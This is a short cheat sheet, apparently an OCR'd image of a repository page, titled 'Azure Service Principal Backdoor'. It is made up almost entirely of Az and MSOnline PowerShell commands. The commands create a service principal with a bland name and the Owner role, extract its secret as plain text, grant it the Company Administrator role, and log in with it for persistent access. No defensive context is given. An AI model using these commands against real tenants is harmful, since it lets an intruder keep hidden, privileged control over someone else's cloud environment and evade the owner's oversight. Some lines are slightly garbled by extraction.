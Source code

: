 # Azure Service Principal Backdoor

## Tool: Az Powershell Module

### Create a new Azure service principal as a backdoor

 - $spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner

 - $spn

 - $BSTR = ::SecureStringToBSTR($spn.Secret)

 - $UnsecureSecret = ::PtrToStringAuto($BSTR)

 - $UnsecureSecret

 - $sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>

 - $role = Get-MsolRole -RoleName "Company Administrator"

 - Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -

 - RoleMemberObjectId $sp.ObjectId

### Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt

 - $cred = Get-Credential

 - Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
